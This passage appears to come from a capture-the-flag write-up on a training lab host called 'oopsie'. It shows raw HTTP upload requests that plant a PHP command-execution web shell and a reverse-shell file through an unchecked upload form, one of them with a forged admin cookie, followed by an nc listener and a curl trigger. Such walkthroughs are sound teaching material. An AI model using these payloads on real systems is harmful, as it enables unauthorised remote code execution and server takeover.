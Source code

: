```

evil
------WebKitFormBoundaryxCPwDzmeB8D1ILNO
Content-Disposition: form-data; name="fileToUpload"; filename="display.php"
Content-Type: text/php

<html><head><title>Display a file</title></head>
<body>
<? echo system("cat ".$_GET[’file’]); ?>
</body></html>
------WebKitFormBoundaryxCPwDzmeB8D1ILNO--
```

This uploaded successfully (which is good, because they haven't checked for file extensions!).

Recall that we say an `uploads` directory from `gobusters` earlier!  Let's try uploading a [reverse shell PHP file](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) on:

```
POST /cdn-cgi/login/admin.php?content=uploads&action=upload HTTP/1.1
Host: oopsie
Content-Length: 6371
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://oopsie
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQG5MQDvEzdbIdQ1i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://oopsie/cdn-cgi/login/admin.php?content=uploads
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: user=86575; role=super admin
Connection: close

------WebKitFormBoundaryQG5MQDvEzdbIdQ1i
Content-Disposition: form-data; name="name"

evil2
------WebKitFormBoundaryQG5MQDvEzdbIdQ1i
Content-Disposition: form-data; name="fileToUpload"; filename="php-reverse-shell.php"
Content-Type: text/php

<?php
...
?>
------WebKitFormBoundaryQG5MQDvEzdbIdQ1i--
```

We upload this as `php-reverse-shell.php`.  Now we run the classic `nc6 -nlvp 1234` in one tab, and in another, run `curl http://oopsie/uploads/php-reverse-shell.php`.  In the listener tab, we have a reverse shell!
